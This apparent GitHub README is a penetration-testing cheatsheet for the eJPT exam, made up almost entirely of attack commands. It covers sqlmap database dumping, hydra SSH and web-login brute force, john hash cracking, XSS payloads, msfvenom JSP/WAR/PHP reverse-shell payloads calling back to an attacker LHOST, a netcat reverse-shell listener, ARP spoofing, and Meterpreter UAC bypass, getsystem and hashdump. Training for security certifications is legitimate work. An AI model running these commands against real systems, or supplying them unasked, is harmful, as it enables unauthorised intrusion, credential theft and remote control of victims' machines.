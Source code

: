 # eJPT-Cheatsheet-Tips
This is a Cheatsheet for eJPT exam.\

### Nmap
nmap -sn 10.10.10.0/24\
nmap -sV -p- -iL targets -oN nmap.initial\
nmap -A -p- -iL targets -oN nmap.aggressive\
nmap -p<port> --script=vuln -v <target-IP>\

### fPing
fping -a -g 10.10.10.0/24 > targets 2>/dev/null\

### IP Route
**Syntax**
*ip route add "Network-range" via "router-IP" dev <interface>*\
eg.\
ip route add 172.16.50.0/24 via 10.13.37.1 dev tap0\

### John
john --wordlist=/root/Tools/wordlists/rockyou.txt --format=raw-md5\
unshadow passwd shadow > unshadowed.txt\
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt\

### dirb
dirb http://10.10.10.10/ \
dirb http://10.10.10.10/dir -u admin:admin

### Netcat
**Listening for reverse shell**
nc -nvlp 1234

**Banner Grabbing**
nc -nv 10.10.10.10 <port>

### SQLMap
#### Check if injection exists
sqlmap -r Post.req\
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id\
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin"

#### Get database if injection Exists
sqlmap -r login.req --dbs\
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id --dbs\
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" --dbs\

#### Get Tables in a Database
sqlmap -r login.req -D dbname --tables\
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname --tables\
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname --tables

#### Get data in a Database tables
sqlmap -r login.req -D dbname -T table_name --dump\
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname -T table_name --dump\
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname -T table_name --dump

### Hydra
**SSH Login Bruteforcing**
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u 10.10.10.10 ssh\
hydra -v -V -u -l root -P passwords.txt -t 1 -u 10.10.10.10 ssh\
*You can use same for FTP, just replace ssh with ftp*

### XSS
<script>alert(1)</script>\
<ScRiPt>alert(1)</ScRiPt>

*This is a great filter bypass cheatsheet*\
https://owasp.org/www-community/xss-filter-evasion-cheatsheet

**HTTP POST Form**
hydra http://10.10.10.10/ http-post-form "/login.php:user=^USER^&password=^PASS^:Incorrect credentials" -L /usr/share/ncrack/minimal.usr -P /root/Tools/SecLists/Passwords/Leaked-Databases/rockyou-15.txt -f -V

*You will know which wordlists to use when the time comes*

### msfvenom shells
**JSP Java Meterpreter Reverse TCP**
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp

**WAR**
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war

**PHP**
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php\
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

### Metasploit Meterpreter autoroute
run autoroute -s 10.10.10.0/24

### ARPSpoof
echo 1 > /proc/sys/net/ipv4/ip_forward\
arpspoof -i <interface> -t <target> -r <host>\
arpspoof -i tap0 -t 10.100.13.37 -r 10.100.13.36

### SMB Enumeration
**Get shares, users, groups, password policy**
smbclient -L //10.10.10.10/\
enum4linux -U -M -S -P -G 10.10.10.10\
nmap --script=smb-enum-users,smb-os-discovery,smb-enum-shares,smb-enum-groups,smb-enum-domains 10.10.10.10 -p 135,139,445 -v\
nmap -p445 --script=smb-vuln-* 10.10.10.10 -v\

**Access Share**
smbclient //10.10.10.10/share_name\

### FTP Enumeration
nmap --script=ftp-anon 10.10.10.10 -p21 -v\
nmap -A -p21 10.10.10.10 -v\

**Login to FTP server**
ftp 10.10.10.10

### Meterpreter
ps\
getuid\
getpid\
getsystem\
ps -U SYSTEM\

**CHECK UAC/Privileges**
run post/windows/gather/win_privs\

**BYPASS UAC**
*Background the session first*\
exploit/windows/local/bypassuac\
set session\

**After PrivEsc**
migrate <pid>\
hashdump\
  
### Windows Command Line
**To search for a file starting from current directory**
dir /b/s "*.conf*\
dir /b/s "*.txt*\

**Check routing table**
route print\
netstat -r\

**Check Users**
net users\


